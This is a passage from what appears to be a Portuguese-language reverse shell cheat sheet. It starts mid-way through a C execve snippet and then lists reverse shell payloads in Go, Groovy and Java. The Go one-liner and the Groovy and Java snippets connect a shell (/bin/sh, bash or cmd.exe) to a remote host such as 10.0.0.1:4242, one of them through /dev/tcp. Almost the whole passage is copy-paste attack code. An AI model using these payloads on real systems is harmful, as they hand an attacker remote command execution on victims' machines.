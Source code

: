 ```c
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

## Golang

```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

## Groovy

```groovy
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Esse aqui é melhor
```groovy
Thread.start {
    // Reverse shell here
}
```

## Java

Método 1

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Método 2

```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
